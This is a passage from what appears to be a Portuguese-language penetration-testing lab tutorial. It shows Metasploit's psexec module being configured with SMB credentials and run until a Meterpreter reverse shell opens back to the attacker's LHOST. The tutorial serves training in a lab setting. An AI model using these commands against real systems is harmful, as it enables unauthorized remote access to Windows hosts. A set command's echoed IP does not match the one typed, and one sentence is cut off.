 ```shell-session

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Essa é uma área em que o Metasploit brilha em termos de facilidade de uso. Na saída das opções do módulo, vemos várias opções e configurações com uma descrição do significado de cada configuração. Não vamos usar `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` e `SERVICE_NAME` nesta seção. Observe como essa exploração específica usará uma conexão de shell TCP reversa utilizando `Meterpreter`. Um shell Meterpreter nos oferece muito mais funcionalidade do que um shell reverso TCP bruto, conforme estabelecido nas seções anteriores deste módulo. É a carga útil padrão usada no Metasploit.

Queremos usar o comando `set` para configurar as seguintes configurações como tal:

#### Definindo opções

```shell-session

msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.142.172
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Essas configurações garantirão que nossa carga útil seja entregue ao alvo adequado (`RHOSTS`), carregado no compartilhamento administrativo padrão (`ADMIN$`) utilizando credenciais (`SMBPass` & `SMBUser`), inicie uma conexão de shell reverso com nossa máquina host local (`LHOST`).

Essas configurações serão específicas para o endereço IP na sua caixa de ataque e na caixa de destino. Assim como com as credenciais, você pode se reunir em um compromisso. Podemos definir o endereço IP do túnel VPN LHOST ( ou o ID da interface do túnel da VPN.

#### Exploit

```shell-session

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```